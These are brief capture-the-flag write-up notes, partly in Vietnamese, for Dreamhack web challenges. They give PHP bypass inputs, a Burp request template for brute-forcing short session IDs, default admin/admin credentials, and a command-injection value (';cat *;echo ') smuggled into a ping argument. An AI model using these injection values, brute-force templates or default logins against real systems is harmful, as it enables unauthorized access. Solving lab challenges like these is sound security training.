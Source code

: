 # dreamhack.io
## php7cmp4re
```
input1=7.:&inpit2=7:
```
## phpreg
```
step1: input1=dnyanyangng0310&input2=1@43319!+1+13 
step2: cat /../dream/*
```
## ex-reg-ex
```
import re
i = "drabcdde123am@xyz.com"
m = re.match(r'dr\w{5,7}e\d+am@[a-z]{3,7}\.\w+', i)
print(m)
```
## Flying Chars
- Read src for win
## simple-web-request
- Read src and request for win

![image](https://github.com/user-attachments/assets/07441982-8730-4cdc-9491-e224b34fb5e9)

![image](https://github.com/user-attachments/assets/e46ec44a-fb38-41af-b5e5-b6834625743e)

## devtools-sources
- Dont need devtools i need a penguin
```grep -r "DH{" *```
## session

- Ở đây server phân biệt người dùng này với người dùng khác qua session_id. 
- Tuy nhiên độ dài của nó khá ngắn nên chúng ta có thể bf ra được.

![image](https://github.com/user-attachments/assets/4ed8bf4a-4263-49e8-ae56-b7653d5f75f7)

- Mình sẽ dùng brup để bf:

```
GET / HTTP/1.1
Host: host3.dreamhack.games:10491
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.6533.100 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Language: en-US
Referer: http://host3.dreamhack.games:10491/login
Accept-Encoding: gzip, deflate, br
Cookie: sessionid=§i§
Connection: keep-alive
```

![image](https://github.com/user-attachments/assets/f65d445a-37a8-4552-bcba-6c885ca35c5b)

![image](https://github.com/user-attachments/assets/b7f2f260-2c44-427b-8f80-e6d8a63472f4)

## Carve Party
- Click bằng tay đi.
```js
for(i=0; i<=10000; i++){
 $('#jack-target').trigger("click")
}
```
## web-misconf-1
- config quên xóa default password
```
user: admin
pass: admin
```
## command-injection-1
- Server chạy subprocess nhưng không kiểm tra đầu vào của input:
```
ping -c 3 "{input}"
-> input = ";cat *;echo "
-> ping -c 3 ""; cat *; echo ""
```

## 

